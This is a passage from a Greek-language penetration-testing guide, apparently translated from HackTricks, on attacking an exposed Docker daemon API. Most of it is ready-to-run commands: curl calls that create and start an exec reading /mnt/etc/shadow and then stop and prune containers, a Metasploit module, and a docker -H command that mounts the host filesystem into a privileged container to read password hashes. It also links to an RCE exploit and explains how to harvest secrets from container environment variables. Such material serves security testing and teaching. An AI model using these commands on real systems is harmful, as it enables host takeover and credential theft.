 ```bash
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /mnt/etc/shadow"]}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/exec/140e09471b157aa222a5c8783028524540ab5a55713cbfcb195e6d5e9d8079c6/start -d '{}'
#Stop the container
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/stop
#Delete stopped containers
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/prune
```
Αν θέλετε περισσότερες πληροφορίες σχετικά με αυτό, περισσότερες πληροφορίες είναι διαθέσιμες από όπου αντέγραψα τις εντολές: [https://securityboulevard.com/2019/02/abusing-docker-api-socket/](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)

#### Αυτόματη
```bash
msf> use exploit/linux/http/docker_daemon_tcp
nmap -sV --script "docker-*" -p <PORT> <IP>
```
### Συμβιβασμός

Στην επόμενη σελίδα μπορείτε να βρείτε τρόπους για **να ξεφύγετε από ένα docker container**:

{% content-ref url="../linux-hardening/privilege-escalation/docker-security/" %}
[docker-security](../linux-hardening/privilege-escalation/docker-security/)
{% endcontent-ref %}

Καταχρώντας αυτό είναι δυνατόν να ξεφύγετε από ένα container, μπορείτε να εκτελέσετε ένα αδύναμο container στη απομακρυσμένη μηχανή, να ξεφύγετε από αυτό και να συμβιβάσετε τη μηχανή:
```bash
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cat /mnt/etc/shadow
```
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py)

### Κλιμάκωση Δικαιωμάτων

Αν βρίσκεστε μέσα σε έναν υπολογιστή που χρησιμοποιεί docker, μπορείτε [**να διαβάσετε αυτές τις πληροφορίες για να προσπαθήσετε να κλιμακώσετε τα δικαιώματα**](../linux-hardening/privilege-escalation/#writable-docker-socket).

### Ανακαλύπτοντας μυστικά σε εκτελούμενα κοντέινερ Docker
```bash
docker ps [| grep <kubernetes_service_name>]
docker inspect <docker_id>
```
Ελέγξτε **env** (τμήμα μεταβλητών περιβάλλοντος) για μυστικά και μπορεί να βρείτε:

* Κωδικούς πρόσβασης.
* Διευθύνσεις IP.
* Θύρες.
* Διαδρομές.
* Άλλα… .
